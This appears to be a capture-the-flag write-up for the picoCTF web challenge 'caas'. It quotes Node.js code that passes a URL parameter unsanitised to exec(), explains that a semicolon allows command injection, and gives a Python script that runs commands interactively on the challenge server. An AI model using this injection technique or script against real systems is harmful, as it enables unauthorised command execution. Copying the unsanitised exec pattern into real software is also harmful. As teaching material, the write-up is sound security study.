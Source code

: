 # caas 
## picoctf web

[solve.py](solve.py)


### Its a web challenge from PicoCTF
We got a webpage with a input field which do cowsay commad with input value when input event is triggered.

## Vulnerable Code

```js
app.get('/cowsay/:message', (req, res) => {
  exec(`/usr/games/cowsay ${req.params.message}`, {timeout: 5000}, (error, stdout) => {
 ```
 
 Here we can see exec is used which is one of the dangerous functions and another factor is that no input sanitations applied.
## POC

As we know about the vuln we can put a semi-colon ```;``` to gain arbitrary command execution. If a user wants to execute system commmads they can directly pass the command to the input after adding a semi-colon


## Exploitaion

A simple python script using cmd module
```python
import requests
import cmd

url = "https://caas.mars.picoctf.net/cowsay/hi;"

class Caas(cmd.Cmd):
	prompt = "(caas) => "

	def __init__(self):
		super(Caas, self).__init__()
		self.url = url 
		self.completedefault = None
	def default(self, args):
		if args in ['exit', 'EXIT', 'quit', 'QUIT']:
			exit()
		r = requests.get(self.url+str(args))
		print(r.text)

if __name__=='__main__':
	Caas().cmdloop()
```
